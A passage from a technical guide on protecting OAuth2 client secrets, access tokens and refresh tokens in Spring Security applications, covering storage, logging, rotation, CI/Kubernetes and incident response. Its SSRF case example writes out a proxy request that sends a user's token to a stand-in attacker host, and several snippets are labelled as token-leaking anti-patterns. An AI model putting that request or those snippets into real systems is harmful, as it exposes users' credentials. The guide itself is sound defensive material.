            expiry == null ? "unknown" : expiry.toString(),
            "hasRefreshToken",
            authorizedClient.getRefreshToken() != null
        );
    }
}
```

This example **returns no token values**. Still, metadata endpoints can reveal authorization state; protect `/internal/**` with endpoint security for authorized roles rather than leaving it public.

Never return:

```java
// WRONG: leaks Bearer credential into JSON.
return authorizedClient.getAccessToken().getTokenValue();
```

And never debug like this:

```java
// NEVER log the whole object: may contain sensitive data.
log.info("OAuth2 client = {}", authorizedClient);
```

### 16.1. Separate Health Checks from Secret Inspection

A health check needs to know whether the system can reach the token endpoint—not fetch a user token or expose a client secret.

If health checks actively mint tokens, they can generate unnecessary token requests and risk leaking secrets in diagnostic logs on error. Choose checks appropriate for liveness/readiness and rate limits.

## 17. Client Secrets and Tokens Belong in Separate Stores

A system can separate concerns into:

```text
Secret Manager:
  company client credential
  billing service credential
  encryption keys / KMS policy

OAuth2AuthorizedClient Store:
  (registrationId, principalName) -> encrypted Access/Refresh Token

WebSession Store:
  browser session / SecurityContext / pending authorization request

Resource Server:
  receives Access Token for API, does not access client secret or Refresh Token
```

Reasons:

- Client secrets are **workload-level configuration credentials**, not per-user credentials.
- Access/Refresh Tokens belong to **specific authorizations** and principals.
- Sessions hold **browser authentication state**.
- Encryption keys must be separated from the data they protect.

Even when backed by shared infrastructure technology (e.g., the same managed database or Redis cluster), separate **schemas, namespaces, IAM roles, keys, encryption, and retention** along real trust boundaries. Never let a support role read everything merely because it sits in the same cluster.

## 18. WebSession Cookies and BFF Strategy

In a **Backend-for-Frontend**:

1. The browser communicates with Spring Boot over HTTPS.
2. The browser sends a session cookie so the app identifies the user.
3. The backend keeps Access/Refresh Tokens in authorized client storage.
4. The backend calls Resource Servers using the Access Token.
5. The frontend receives only business data.

Advantage: **browser JavaScript never needs to read backend Refresh Tokens or client secrets**.

### 18.1. Cookie Attributes

Session cookies should have:

- `HttpOnly` so JavaScript cannot read the cookie directly.
- `Secure` when served over HTTPS.
- `SameSite` aligned with login/cross-site callback flows and CSRF policy.
- `Path` and `Domain` scoped tightly to the application.
- High-entropy session IDs, plus session rotation/fixation protection per framework/policy.

Spring Boot configuration example:

```yaml
server:
  servlet:
    session:
      cookie:
        http-only: true
        secure: true
        same-site: lax
```

This is a **Servlet** example. For **Spring WebFlux**, `WebSession` and cookie settings follow the reactive server stack rather than `server.servlet.session.*` universally. Confirm your stack before applying properties.

`SameSite=Lax` can work with top-level GET Authorization Code callbacks. If the provider uses `response_mode=form_post` or other cross-site flows, evaluate cookie/CSRF rules explicitly—do not simply switch to `None` and drop all protections.

### 18.2. HttpOnly Cookies Do Not Replace CSRF Protection

A cookie-session BFF is vulnerable to **CSRF** because browsers attach cookies automatically per origin. Spring Security CSRF protection, `SameSite` policies, and checks on state-changing requests remain necessary per your threat model.

`HttpOnly` reduces JavaScript cookie theft, yet **does not stop** same-origin scripts from performing actions on the user's behalf if XSS occurs. You still need XSS defenses, solid CSP, output encoding, and authorization checks.

### 18.3. Never Put Refresh Tokens in localStorage to "Simplify Sessions"

In a BFF, placing backend Refresh Tokens into `localStorage`/`sessionStorage` exposes them to JavaScript and magnifies XSS impact.

For a true public SPA that must hold tokens in the browser, design specifically around OAuth2 for Browser-Based Apps / Authorization Code + PKCE—evaluating memory-only storage, rotation/sender constraints, token handling, and threat models—rather than applying a confidential-backend model to a public client.

## 19. Protecting Tokens in RAM and the Runtime Lifecycle

Even when tokens exist only in memory to send HTTP requests, the process can still be targeted or inspected.

Restrict access to:

- Attaching debuggers/profilers to production processes.
- Capturing heap dumps/core dumps.
- Reading process environments and JVM system properties.
- Interactive shell access inside containers.
- Running arbitrary plugins/extensions in the same process.
- Reading traces or request contexts from other services.
- Downloading build artifacts containing configs/resources.

### 19.1. You Cannot "Wipe String Tokens from RAM" Completely

Java `String` is immutable, and the runtime/GC can keep copies of secrets/tokens in memory for some time. Never assume setting `tokenValue = null` immediately purges the credential from the heap.

The practical approach is to **minimize retention time and copy count**, limit serialization/logging, lock down the process, and avoid unnecessary string concatenation with tokens. For certain key/secret material, security libraries offer byte-array zeroization APIs; do not blindly apply zeroization tricks to framework `String` values and claim absolute safety.

### 19.2. Do Not Store Credentials in Uncontrolled Request Attributes

Middleware often logs request context/attributes. Put only objects/metadata genuinely required by trusted components there; avoid a global context map holding raw Refresh Tokens that could unexpectedly reach logs or traces.

## 20. Protecting Storage in Databases, Redis, and Backups

Evaluate controls per storage tier:

| Infrastructure | Risk | Mitigations |
|---|---|---|
| **Relational DB** | DBAs, SQL injection, or backups reading raw tokens. | Least-privilege DB users, parameterized queries, encryption, auditing, network isolation. |
| **Redis/cache** | Key eviction, snapshots, admin commands, debug dumps. | TLS/authz, network policy, restricted admin commands, encryption/TTL, data minimization. |
| **Shared Session Store** | Session objects may hold authorized clients. | RBAC, backup protection, session TTL, minimize sensitive payload. |
| **Object storage backups** | Snapshots accessed more broadly than primary DB. | Encrypted backups, bucket policies, retention, and key separation. |
| **Disaster-recovery replicas** | Credentials replicated across regions/systems. | Consistent access controls, encryption, and deletion policies. |

### 20.1. Cache TTL Is Not OAuth2 Authorization

A 15-minute cache TTL does not mean the Authorization Server granted the Access Token 15 minutes of validity; the token still carries its own `expiresAt`.

Conversely, setting TTL equal to Access Token expiry can drop a Refresh Token needed for designed refresh flows. Base retention on granted rights, lifecycle, and business policy—not a single arbitrary number.

### 20.2. Separate Read/Write DB Privileges

The application runtime needs to load and save authorized clients; a cleanup job may only need to delete expired records; operational reports may only need aggregate views without token columns.

Never grant every role `SELECT access_ciphertext, refresh_ciphertext` plus decryption rights. If a service only needs authorized client counts, expose a metadata view or metric rather than raw tables.

### 20.3. Backups and Data Deletion

Tokens deleted from the primary database can linger in snapshots/backups. Retention policies must define:

- How long backups are kept.
- Who can restore and read them.
- How backup encryption keys are managed.
- How account deletion purges tokens across primaries and replicas.
- How expired backups are disposed of.
- Recovery procedures that prevent old tokens from being reactivated against policy after a restore.

## 21. Logging, Tracing, and Exception Handling

Credentials leak through **observability pipelines** far more often than through intentional business API responses.

Artifacts that can accidentally contain credentials:

```text
Authorization: Bearer <access-token>
Authorization: Basic <encoded-client-credentials>
POST token endpoint body: refresh_token=<refresh-token>
OAuth2AccessTokenResponse
OAuth2AuthorizedClient
ClientRegistration
Client request/response debug dumps
Application exceptions + nested HTTP requests
```

Controls to enforce:

- HTTP client/server filters never log `Authorization`.
- Never log token endpoint request bodies.
- Never log raw token responses.
- Never call `toString()` on credential-bearing objects in logs.
- Disable or redact wiretaps in production.
- Configure APM to capture only safe headers/fields.
- Never write raw callback query strings containing `code` and `state` to public logs.
- Never attach heap dumps containing tokens to unprotected tickets.

### 21.1. What Can You Log Safely for Debugging Without Raw Tokens?

Log safe metadata such as:

| Metadata | Example |
|---|---|
| Registration alias | `company` |
| Grant type | `authorization_code`, `refresh_token`, or `client_credentials` |
| Issuer alias | `company-oidc` |
| Remaining token TTL | `240s` |
| Has refresh token | `true/false` |
| Authorization outcome | `reused`, `refreshed`, `failed` |
| OAuth2 error code | `invalid_grant`, `invalid_client` |
| API alias/status | `orders-api / 401` |
| Principal diagnostic ID | Internal opaque identifier, not a raw token |
| Instance/correlation ID | Internal ID with no credential data |

Conceptually safe log example:

```text
oauth2.authorized_client registration=company
principalCategory=user
refreshAttempt=true
result=invalid_grant
accessTokenValue=<not-logged>
```

Never log raw Refresh Tokens to compare before/after rotation. To diagnose races, use an **internal token version** and correlation IDs.

### 21.2. Token Endpoint Exceptions Can Leak Sensitive Info

When an Authorization Server rejects a request, `error_description` or exception messages might unexpectedly reach UIs or logs. Map errors to concise messages, log sanitized error codes, and strip client secrets or Refresh Tokens.

Never return stack traces or token endpoint request bodies to the browser.

### 21.3. Never Use Tokens as Metrics Labels

Wrong:

```text
oauth2_refresh_attempts{token="<refresh-token>"} 1
```

Better:

```text
oauth2_refresh_attempts{
  registration="company",
  result="success"
} 1
```

Also avoid emails, raw subjects, or arbitrary user-supplied principal names in metric labels, as they explode cardinality and leak personal data.

## 22. Distinguishing Access Token Compromise from Refresh Token Compromise

Response actions depend on which credential leaked:

| Incident | Risk | Response Direction |
|---|---|---|
| **Client secret leaked** | Attacker can authenticate as the OAuth2 client in permitted grants/providers. | Rotate/revoke credential at AS; review client grants, logs, token issuance, and everywhere the secret appeared. |
| **Access Token leaked** | Attacker can use the token while valid within accepted API scope. | Revoke if provider supports it, wait for expiry if irrevocable, audit usage, and shorten TTL if appropriate. |
| **Refresh Token leaked** | Attacker can mint new tokens if constraints are bypassed; long-lived impact. | Revoke Refresh Token/token family, invalidate authorized client, force reauthorization if needed, trace leak source. |
| **Database ciphertext leaked** | Depends on key protection and decryption access. | Check for key compromise, revoke/rotate as needed, audit DB/KMS permissions, backups, and access logs. |
| **Session cookie leaked** | Attacker can hijack the web session within its lifetime/scope. | Invalidate session, check for XSS/session fixation; do not treat rotating the Access Token as sufficient. |

These are general response patterns; exact steps depend on your Authorization Server, token format, revocation endpoint, and auditing capabilities.

### 22.1. Revocation Differs from Deleting Client Records

`OAuth2AuthorizedClientService.removeAuthorizedClient(...)` only deletes data on the OAuth2 Client side.

**Token revocation** sends a request to the Authorization Server via an API like RFC 7009 when supported by the provider. Deleting a DB row does not invalidate a stolen Access Token at Resource Servers.

Likewise, logging out a `WebSession` does not revoke tokens at the OP; define explicit policies for logout, account disabling, and offboarding.

### 22.2. Do Not Automatically Retry a Revoked Refresh Token

If the token endpoint returns `invalid_grant` due to a revoked/expired Refresh Token, retrying endlessly with the same token adds log noise and may violate provider policies. Clean up the authorized client and prompt login/reauthorization when appropriate.

## 23. Refresh Token Rotation in Multi-Instance Environments

A serious issue arises when two requests use the **same Refresh Token** concurrently:

```text
Node A loads Access Token A1 + Refresh Token R1
Node B loads Access Token A1 + Refresh Token R1

Node A refreshes R1 -> A2/R2; R1 is invalidated
Node B refreshes R1 -> invalid_grant / reuse detection

Node A saves A2/R2
Node B must not overwrite with stale state
```

Some providers enforce reuse detection and revoke the entire token family. Under token rotation, restricting access is not only **who can read the token**, but also **how many threads may consume a Refresh Token at once**.

### 23.1. Concurrency Control

Effective strategies include:

- Single-flight per key within one JVM.
- Distributed locking by `(tenant, registration, principal)` across multiple instances.
- Optimistic locking/versioning on records.
- Re-reading the record after acquiring the lock before refreshing.
- Saving the new Access Token and Refresh Token in one consistent transaction.
- Timeouts and handling for node crashes or failed DB commits.
- Avoiding global locks across all users that bottleneck the system.

**Database persistence alone does not solve race conditions.** Coordinate across the manager/provider, token endpoint, and store.

### 23.2. Never Fall Back to Another User's Refresh Token

If User A's refresh fails, never substitute User B's Refresh Token or a higher-privilege machine Client Credentials token to keep the API call succeeding. That causes cross-principal credential leakage and privilege escalation.

### 23.3. Clock Skew Affects Refresh Timing

Spring Security uses `clockSkew` to treat an Access Token as expiring slightly before `expiresAt`. It does not create background refresh timers and does not solve concurrent refreshes by itself. Setting skew too large pushes requests into unnecessary early refreshes, increasing load on the token endpoint.

## 24. Rotating Client Secrets Safely

Client secrets may require scheduled rotation, incident-driven rotation, or migration across secret management systems.

Conceptual workflow:

1. Identify all client registrations and workloads using the secret.
2. Check whether the OP supports **two active credentials simultaneously** during cutover.
3. Issue the new credential through an authorized secret management channel.
4. Update the secret manager/deployment config without committing values to Git.
5. Roll out the application per plan and verify token endpoint authentication via safe metadata.
6. Once all workloads use the new credential, revoke the old secret.
7. Check logs/audits to confirm the old credential is no longer in use.
8. Update runbooks/ownership and diagnostic artifact retention.

If the provider **does not support overlapping secrets**, plan rotation to minimize downtime. Never assume every Authorization Server allows multiple secrets or that Spring reloads secrets dynamically without restarting/refreshing configuration.

### 24.1. Refresh Tokens and Client Secrets After Rotation

Changing a client secret does not guarantee all Refresh Tokens keep working or expire automatically; behavior depends on the Authorization Server and client registration.

Verify whether the OP allows tokens issued before rotation to be used with the new credential. Do not keep an old client secret alive indefinitely just because some Refresh Tokens remain.

### 24.2. Token Encryption Key Rotation vs. Client Secret Rotation

- **Client secret rotation**: swaps the credential the OAuth2 Client uses to authenticate to the Authorization Server.
- **Token encryption key rotation**: swaps the key used to encrypt tokens in the database/cache.
- **Refresh Token Rotation**: the provider replaces the Refresh Token on each refresh.
- **Access Token issuance/expiry**: the provider mints new tokens per grant.

These are four separate mechanisms with different timelines and operational impacts. Rotating one does not automatically rotate the others.

## 25. Kubernetes, Containers, and CI/CD

### 25.1. Kubernetes Secrets Are Not Automatically Secure

Kubernetes Secrets are commonly represented as Base64 in manifests/APIs. **Base64 is not encryption.**

Securing secrets in Kubernetes also requires:

- RBAC limiting service accounts and human access.
- Encryption at rest for cluster data (etcd) where appropriate.
- Never committing Secret manifests containing real values.
- Namespace/workload isolation and network policies.
- Preventing unrelated pods from mounting/reading secrets.
- Audited secret distribution and rotation.
- Restricting `kubectl exec` and inspecting environments of production containers.

If a service account has `get/list secrets` across an entire namespace when it only needs one secret, permissions are overly broad.

### 25.2. Workload Service Identities

An environment can use workload identity/IAM to fetch client secrets or call KMS without placing long-lived cloud keys inside pods.

Bind permissions to **the specific application's service account**, not a shared admin account. When hosting multiple OAuth2 registrations, consider separating workloads/roles when policies differ.

### 25.3. CI Pipelines Do Not Need Production Tokens

Normally, builds and unit tests do not need production client secrets or user Refresh Tokens. CI should use dummy fixtures, mock token endpoints, or isolated test-environment credentials.

Never grant production secrets to every pull-request pipeline, especially pipelines running code from forks or untrusted dependencies. Never print secrets to artifacts/logs even if CI has masking.

### 25.4. Container Images Must Not Contain Secrets

Any secret embedded via `Dockerfile ENV`, build layers, copied config files, or image labels persists in the image registry/history. Inject secrets at runtime through approved mechanisms—never bake them into images.

## 26. Differences Among Users, Operators, and Service Accounts

Systems typically involve distinct roles:

- **End user:** uses web features; must never see raw Access/Refresh Tokens.
- **OAuth2 Client runtime:** authorized to use tokens for the right principal and API.
- **Support operator:** inspects login/refresh status via metadata; must never dump raw tokens.
- **Security administrator:** manages policies, revocation, and audits within authorized scope.
- **DB administrator:** administers the database; does not necessarily hold KMS decrypt key permissions.
- **CI runner:** builds/deploys with short-lived, minimal-scope credentials.
- **Resource Server:** validates Access Tokens; never needs client secrets or Refresh Tokens.

Enforce separation of duties. For instance, someone may **revoke** a user's token via workflow without reading the token value; a database backup operator does not automatically gain KMS decrypt permissions for production credentials.

### 26.1. Break-Glass Access

When an incident truly requires elevated access:

- Require documented justification and approval per policy.
- Grant temporary, audited, auto-expiring access.
- Scope tightly to the needed registration/tenant/environment.
- Never paste raw secrets into chats or tickets to "ask someone else to take a look".
- Revoke access once resolved.
- Evaluate rotating tokens/secrets if any credential was exposed to an uncontrolled environment.

Never leave break-glass accounts with standing unmonitored privileges.

## 27. API Boundary: Resource Servers Must Validate Access Tokens

An Access Token should only be accepted by a Resource Server when it satisfies protocol and policy requirements:

- Trusted issuer/authorization server.
- Valid signature or token introspection per format.
- Audience/resource matching the API.
- Unexpired (`exp`) and valid `nbf` if present.
- Granted scopes/permissions.
- API-specific user/client/tenant/resource policies.
- Token revocation/invalidation as supported by the provider/API.

Never assume an Access Token is valid across every internal service merely because those services belong to the same organization.

### 27.1. APIs Do Not Need Refresh Tokens

Resource Servers must never ask clients to send Refresh Tokens to call business endpoints; Refresh Tokens belong exclusively at the **Authorization Server token endpoint**.

If an internal API is designed to accept Refresh Tokens just to "extend the user session", re-examine the OAuth2/OIDC boundary. Do not turn a Resource Server into a collector of long-lived credentials unnecessarily.

### 27.2. Resource Servers Do Not Need Client Secrets

The client secret authenticates the OAuth2 Client to the Authorization Server. Resource Servers should trust **verified Access Tokens**, not demand that the client secret accompany the Bearer token on every request.

If an API has its own client authentication mechanism, design it as an independent contract—never arbitrarily reuse an OAuth2 client secret as a shared API key.

## 28. When Should You Avoid Storing Refresh Tokens Long-Term?

An application performing tasks only within a short user session may not need to retain Refresh Tokens for days, even if issued by the provider.

Design questions:

- Did the user request offline access?
- Does the business need jobs to run after the browser/session ends?
- How can the user revoke consent?
- Does the Refresh Token require rotation and an absolute lifetime?
- Can the system adequately protect token DBs, KMS, backups, and incident response?
- When an account is locked or the user logs out, must background tasks stop?
- Does token store retention align with data governance policies?

**Retaining credentials longer than needed expands the attack surface.** Do not store Refresh Tokens indefinitely "just in case" without clear purpose and approval.

### 28.1. Offline Access Is Not Unconditional Permission

Some OIDC providers use the `offline_access` scope to allow refreshing while the user is absent. Having the scope/Refresh Token does not remove obligations to check consent, account status, app policies, and revocation capability.

Applications should clearly explain to users or administrators how to disconnect an integration when it is no longer needed.

## 29. Case Example: Client Secret Leaked in Build Logs

Suppose a pipeline has:

```text
Build stage runs with OIDC_CLIENT_SECRET injected.
A debug script prints the entire environment.
CI job logs are readable by many developers.
```

The risk is not merely "someone glanced at the secret once": logs can persist in retention systems, mirrors, artifacts, or external observability tools.

Remediation:

1. Remove environment/credential printing from scripts.
2. Scope secret access by job, branch, environment, and approver.
3. Treat the secret as compromised and rotate it at the Authorization Server.
4. Inspect token endpoint audit logs for anomalies (without querying by raw secret).
5. Review log retention and access permissions per incident procedures.
6. Add secret-scanning guardrails and log redaction.

**Never just delete the log line in the UI and conclude the secret was never exposed.**

## 30. Case Example: Plaintext Refresh Tokens in the Database

Suppose a custom `OAuth2AuthorizedClientService` stores:

```text
principal | registration | refresh_token_plaintext
user-A    | company      | <refresh-token-A>
user-B    | company      | <refresh-token-B>
```

A DBA/support account that only needs metadata holds `SELECT *`. If that account is compromised, many Refresh Tokens can be stolen.

Improved design:

1. Deny metadata/reporting roles access to token columns.
2. Encrypt tokens at the application layer when required by the threat model.
3. Separate KMS decryption permissions from DB read permissions.
4. Use AAD binding tokens to registration/principal/tenant to block ciphertext swapping.
5. Restrict the runtime so it only decrypts tokens for the authorized principal/context.
6. Maintain cleanup/rotation/revocation procedures for incidents.
7. Protect backups/snapshots containing ciphertext and secure key history.

Never simply rename the column from `refresh_token_plaintext` to `encrypted_token` while leaving the stored data in plaintext or Base64.

## 31. Case Example: WebClient SSRF Leaking Access Tokens

Suppose the backend exposes:

```text
GET /proxy?url=https://attacker.example/collect
```

and uses a shared `WebClient` with a default OAuth2 authorized client enabled. When a logged-in user calls this endpoint, the backend can send their Access Token to the attacker-controlled host.

This is why you must:

- Never pass arbitrary browser-supplied URLs to a Bearer-enabled `WebClient`.
- Never configure default tokens on a multi-host HTTP client.
- Use dedicated `WebClient` instances per Resource Server with fixed base URLs/allowlists.
- Attach tokens only to explicitly verified requests.
- Control redirects and cross-origin header forwarding.
- Keep scopes/audiences narrow to limit damage if a token leaks.
- Respond to token leaks with incident response and revocation where possible.

**DB encryption cannot stop this bug**, because the legitimate runtime decrypted the token and sent it to the wrong destination.

## 32. Case Example: Logout Leaves Integration Tokens Behind

Suppose an employee logs out of the web app. The HTTP session is cleared, yet `OAuth2AuthorizedClientService` still holds a Refresh Token for an offline job.

This can be valid **if** the product has an explicit offline integration consent and retention policy. It is a serious bug if the requirement states "logout must stop all delegated access on behalf of the user".

Align behavior with policy:

| Product Policy | Required Behavior |
|---|---|
| Logout only ends the browser session | Invalidate session; token persistence may continue while authorization and consent remain valid. |
| Logout must end delegated access | Delete local authorized client; revoke remote tokens where provider/policy supports it. |
| User withdraws consent | Stop token usage, clean up, and handle revocation/reauthorization. |
| Account disabled | Block API/business access, stop related jobs, and revoke per policy. |
| Employee offboarding | Identify all registrations/token families, sessions, offline jobs, and backup retention to address. |

Never equate `removeAuthorizedClient`, session invalidation, and the Token Revocation Endpoint as the same action.

## 33. Troubleshooting Errors Caused by Tight Restrictions or Misconfiguration

Access restrictions should clearly separate **proper security** from **misconfiguration breaking flows**.

| Symptom | Possible Cause | Safe Investigation Step |
|---|---|---|
| Token endpoint returns `invalid_client` | Runtime lacks the right secret, secret rotated, wrong client auth method. | Verify registration/provider/secret version without printing the secret value. |
| Login callback succeeds, yet API returns 401 | Access Token has wrong audience/issuer, expired, or header wasn't sent. | Inspect token metadata, `WebClient` filter, and Resource Server policy. |
| API returns 403 | Insufficient scope/role/tenant/ownership. | Check API permissions; never swap to a higher-privilege token. |
| Refresh returns `invalid_grant` | Refresh Token revoked/expired, rotation reuse, or client policy mismatch. | Clean up/reauthorize; check concurrency and provider logs. |
| One node cannot load authorized client | Local session/store, principal mismatch, missing DB/KMS credentials. | Inspect store wiring, node identity, and KMS access using metadata. |
| Token decryption fails | Wrong encryption key version/AAD, corrupted row, migration error. | Check key policy/ciphertext format; never fall back to plaintext. |
| Support cannot view tokens | Least-privilege policy working as intended. | Provide diagnostic metadata instead of opening raw token access. |
| Debug logs lack Authorization header | Proper redaction or HTTP client didn't send token. | Use sanitized Boolean indicators/traces to distinguish. |
| After secret rotation, some replicas fail | Not reloaded/restarted, partial rollout, provider lacks overlap support. | Check deployment and secret versions per node. |
| Session expired, yet token remains in DB | Two independent lifecycles. | Check logout/retention policies; do not auto-restore authentication. |
| Token sent to external API | Default `WebClient` token, dynamic URI, bad redirect/proxy. | Audit destination allowlists and HTTP filters. |
| Cluster refresh conflicts | Multiple nodes used the same old Refresh Token. | Check token versioning/locking and rotation semantics. |

### 33.1. Never Debug by Disabling Security

Dangerous "fixes":

- Disabling HTTPS certificate verification.
- Granting all developers read access to production secrets.
- Adding an endpoint that returns raw Access Tokens.
- Exposing `/actuator/env` publicly.
- Accepting any token regardless of audience.
- Logging all HTTP headers in production.
- Removing tenant filters so the token store "finds data more easily".
- Keeping an old client secret indefinitely after rotation.
- Falling back to another user's Refresh Token when refresh fails.

The right approach is inspecting safe metadata and identifying which boundary is failing.

## 34. Incident Response Runbook for Suspected Credential Compromise

An operational workflow can be divided into phases:

### 34.1. Scope the Incident

- Which credential: client secret, Access Token, Refresh Token, ID Token, or session cookie?
- Which registration/client/tenant/environment?
- Is the token/secret still valid?
- Where did it appear: Git, logs, traces, DB, backups, browser, HTTP destination?
- Who had access to the exposure source?
- Does the provider support revocation/rotation and offer audit logs?

Never paste raw credentials into tickets to verify token types. Use metadata and approved security tooling.

### 34.2. Contain Ongoing Exposure

- Stop logging raw headers/request bodies.
- Lock down access to affected logs, DBs, or secret managers.
- Disable the leaking endpoint or block the exfiltration URL.
- Stop issuing new tokens into an uncontrolled channel.
- Preserve evidence/audit trails per procedure while keeping investigative data confidential.

### 34.3. Revoke and Replace Credentials

- Rotate/revoke the compromised client secret.
- Revoke Access/Refresh Tokens where provider-supported and scoped.
- Invalidate affected sessions if session cookies were exposed.
- If an encryption key was compromised, evaluate re-encryption/rotation and which ciphertexts could be decrypted.
- Update app configs/rollouts/manager stores per policy.

### 34.4. Verify and Prevent Recurrence

- Confirm the app uses the new credentials and the token endpoint works.
- Verify logs no longer contain raw tokens.
- Audit IAM/KMS/DB/CI permissions and backups.
- Investigate anomalous API events during the exposure window.
- Add guardrails such as secret scanning, redaction, and destination allowlists.
- Document post-incident review per organizational process.

This runbook does not replace formal incident-response policy; its goal is to align actions with **the exact credential type** and **avoid creating extra copies of secrets during investigation**.

## 35. Key Principles to Remember

- **Client secrets** authenticate confidential clients to the Authorization Server. Never put them in browsers, Resource Servers, or Git.
- **Access Tokens** call authorized Resource Servers within audience/scope/expiry. Never send them to arbitrary URLs or untrusted redirect hosts.
- **Refresh Tokens** belong only at the token endpoint, tightly protected in backend/storage, with rotation, revocation, and concurrency handling.
- `OAuth2AuthorizedClientRepository`/Service stores tokens by registration and principal; never grant broad read permissions to tokens.
- **Session cookies**, **`SecurityContext`**, and **authorized clients** are distinct states. An `HttpOnly` cookie does not protect DB tokens if DB privileges are overly broad.
- Environment variables, Kubernetes Secrets, database TDE, and TLS are all helpful, yet **insufficient on their own**.
- Token encryption should use vetted mechanisms, keep encryption keys separate from the DB, and enforce least-privilege KMS access.
- No public endpoint or log ever needs to expose raw credentials just for debugging.
- Use explicit authorized clients with `WebClient`; avoid default-token policies across multiple hosts.
- Partition access by workload, principal, tenant, and environment; never let user input select another user's token.
- Rotations of client secrets, Refresh Tokens, and encryption keys have **distinct lifecycles**.
- Local logout, deleting an authorized client, and revoking at the Authorization Server are not equivalent.
- On error, prefer **failing closed + safe metadata**, rather than bypassing security to "make the flow work".

## 36. References

- [Spring Security Reference — OAuth2 Client (Servlet)](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/index.html)
- [Spring Security Reference — OAuth2 Client Core](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/core.html)
- [Spring Security Reference — OAuth2 Login](https://docs.spring.io/spring-security/reference/servlet/oauth2/login/index.html)
- [Spring Security Reference — OAuth2 Client (Reactive)](https://docs.spring.io/spring-security/reference/reactive/oauth2/client/index.html)
- [Spring Security API — OAuth2AuthorizedClient](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/OAuth2AuthorizedClient.html)
- [Spring Security API — OAuth2AuthorizedClientService](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/OAuth2AuthorizedClientService.html)
- [Spring Security API — OAuth2AuthorizedClientRepository](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/web/OAuth2AuthorizedClientRepository.html)
- [Spring Security API — JdbcOAuth2AuthorizedClientService](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/JdbcOAuth2AuthorizedClientService.html)
- [Spring Security Reference — HTTP Security Headers](https://docs.spring.io/spring-security/reference/servlet/exploits/headers.html)
- [Spring Boot Reference — Externalized Configuration](https://docs.spring.io/spring-boot/reference/features/external-config.html)
- [Spring Boot Reference — Actuator Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html)
- [OAuth 2.0 — RFC 6749](https://www.rfc-editor.org/rfc/rfc6749)
- [OAuth 2.0 Bearer Token Usage — RFC 6750](https://www.rfc-editor.org/rfc/rfc6750)
- [OAuth 2.0 Token Revocation — RFC 7009](https://www.rfc-editor.org/rfc/rfc7009)
- [Proof Key for Code Exchange — RFC 7636](https://www.rfc-editor.org/rfc/rfc7636)
- [OAuth 2.0 Security Best Current Practice — RFC 9700](https://www.rfc-editor.org/rfc/rfc9700)
- [OpenID Connect Core 1.0](https://openid.net/specs/openid-connect-core-1_0.html)
- [OWASP Cheat Sheet Series — Secrets Management](https://cheatsheetseries.owasp.org/cheatsheets/Secrets_Management_Cheat_Sheet.html)
- [OWASP Cheat Sheet Series — Session Management](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)

**Conclusion:** restricting access to client secrets, Access Tokens, and Refresh Tokens must align with **each credential's exact responsibility**. Client secrets are solely for client authentication at the Authorization Server; Access Tokens are sent only to valid Resource Servers; Refresh Tokens are used only to obtain new tokens per grant and provider policy. In a Spring Security OAuth2/OIDC Client, combine **secret managers, authorized client repositories/services, principal/tenant isolation, encryption and KMS, `WebClient` destination allowlists, session/cookie protection, redacted observability, rotation/revocation, and incident response** so credentials are always **used in the right place, by the right component, for the right lifetime**, and never exposed through unnecessary paths.
